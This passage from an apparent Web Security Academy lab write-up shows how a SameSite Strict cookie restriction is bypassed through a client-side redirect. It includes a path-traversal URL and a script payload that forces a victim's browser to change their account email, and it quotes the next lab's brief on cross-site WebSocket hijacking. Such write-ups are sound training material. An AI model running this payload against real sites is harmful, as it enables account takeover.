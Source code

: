 

![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/7.png)


So we can try changing “&” with “%26”, the URL-encoded version:

```
/post/comment/confirmation?postId=../my-account/change-email?email=test7%40test.com%26submit=1
```

This time it works:



![img](images/SameSite%20Strict%20bypass%20via%20client-side%20redirect/8.png)


Payload:

```
<script>
    document.location = 'https://0a2900a103d6f68b83782d1900340012.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=test777%40test.com%26submit=1';
</script>
```

# 09 SameSite Strict bypass via sibling domain

This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account.

To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

If you haven't done so already, we recommend completing our topic on WebSocket vulnerabilities before attempting this lab.

Hint: Make sure you fully audit all of the available attack surface. Keep an eye out for additional vulnerabilities that may help you to deliver your attack, and bear in mind that two domains can be located within the same site.

---------------------------------------------
